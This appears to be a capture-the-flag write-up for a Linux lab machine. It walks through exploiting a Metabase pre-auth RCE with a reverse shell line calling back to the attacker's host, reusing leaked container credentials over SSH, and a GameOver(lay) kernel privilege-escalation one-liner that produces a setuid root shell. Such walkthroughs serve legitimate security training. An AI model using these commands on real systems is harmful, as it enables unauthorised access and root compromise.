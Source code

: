# Analytics
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.229.224  --max-retries 1
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We need to add "analytical.htb" to our hosts file.

Now let's check the website.

![pg1](IMG/img1.png)

Trying to access the login page redirects us to http://data.analytical.htb/ so we'll need to add data.analytical.htb to our hosts file.

![pg2](IMG/img2.png)

We can see Metabase is being used. Searching for CVE I came across this:
https://github.com/m3m0o/metabase-pre-auth-rce-poc

Even if we don't know the version, we can still try to follow the CVE.

## Foothold:

We'll first need to acquire the setup token found at http://data.analytical.htb/api/session/properties.

And we found it:

```
"setup-token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
```

Now let's start a listening port and try to run the script.

```bash
rlwrap nc -lnvp 6666

python main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f  -c "bash -i >& /dev/tcp/10.10.14.131/6666 0>&1"
```

![shell](IMG/img3.png)

And it worked!

## Docker:

Listing the files in the / directory we can see the following:
```bash
ls -la
total 88
drwxr-xr-x    1 root     root          4096 Sep  2 18:44 .
drwxr-xr-x    1 root     root          4096 Sep  2 18:44 ..
-rwxr-xr-x    1 root     root             0 Sep  2 18:44 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29  2023 app
drwxr-xr-x    1 root     root          4096 Jun 29  2023 bin
drwxr-xr-x    5 root     root           340 Sep  2 18:44 dev
drwxr-xr-x    1 root     root          4096 Sep  2 18:44 etc
drwxr-xr-x    1 root     root          4096 Aug  3  2023 home
drwxr-xr-x    1 root     root          4096 Jun 14  2023 lib
drwxr-xr-x    5 root     root          4096 Jun 14  2023 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3  2023 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14  2023 mnt
drwxr-xr-x    1 root     root          4096 Jun 15  2023 opt
drwxrwxrwx    1 root     root          4096 Aug  7  2023 plugins
dr-xr-xr-x  208 root     root             0 Sep  2 18:44 proc
drwx------    1 root     root          4096 Aug  3  2023 root
drwxr-xr-x    2 root     root          4096 Jun 14  2023 run
drwxr-xr-x    2 root     root          4096 Jun 14  2023 sbin
drwxr-xr-x    2 root     root          4096 Jun 14  2023 srv
dr-xr-xr-x   13 root     root             0 Sep  2 18:44 sys
drwxrwxrwt    1 root     root          4096 Aug  3  2023 tmp
drwxr-xr-x    1 root     root          4096 Jun 29  2023 usr
drwxr-xr-x    1 root     root          4096 Jun 14  2023 var
```

The file .dockerenv suggests we are in a container. 

I found some interesting environment variables.
```bash
env

META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

We can use these credentials to establish a ssh connection.

```bash
ssh metalytics@analytical.htb
An4lytics_ds20223#
```

![ssh](IMG/img4.png)

And it worked! Now we can get the user flag.

```bash
cat ~/user.txt
```

## We got the user flag!

## Privilege escalation:

The kernel version is vulnerable to GameOver(lay) exploit.

```bash
hostnamectl

          Kernel: Linux 6.2.0-25-generic
```

I'll use the following POC:
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

![root](IMG/img5.png)

And it worked! Now we can get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!